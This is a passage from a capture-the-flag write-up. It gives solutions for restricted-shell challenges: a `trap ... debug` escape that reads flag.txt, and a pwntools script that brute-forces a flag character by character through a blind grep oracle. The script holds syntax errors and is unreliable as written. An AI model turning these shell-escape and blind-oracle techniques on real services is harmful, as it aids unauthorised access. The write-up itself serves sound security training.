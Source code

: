 **flag{you_activated_my_trap_card}**

**Solution:** Trap command is catching every command except trap, set the trap to something else with `trap '<command>' debug`.
like `trap 'cat flag.txt' debug` to get flag
## Awkward
No output..? Awk-o-taco.

Connect here:
`nc jh2i.com 50025`

**flag{okay_well_this_is_even_more_awkward}**

**Solution:** use grep to find cat all files and grep only to flag format

```python 3
import re
from pwn import *
from string import printable
host, port = 'jh2i.com', 50025

s = remote(host,port)

name = "flag{"
while True:
	for c in "_" + printable:
		command = """grep -ro "{}.*"\n """.format(name + c)
		s.send(command)
		response = s.recv()
		return_code = re.findall("[0-9]+",str(response))[0]
		if int(return_code) == 0:
			if c != '*'
				name += c
				print(name)
				break
			else:
				printf(name + "}")
				break
s.close()
```

***
# Scripting

## Rotten
Ick, this salad doesn't taste too good!

Connect with:\
`nc jh2i.com 50034`

**flag{now_you_know_your_caesars}**
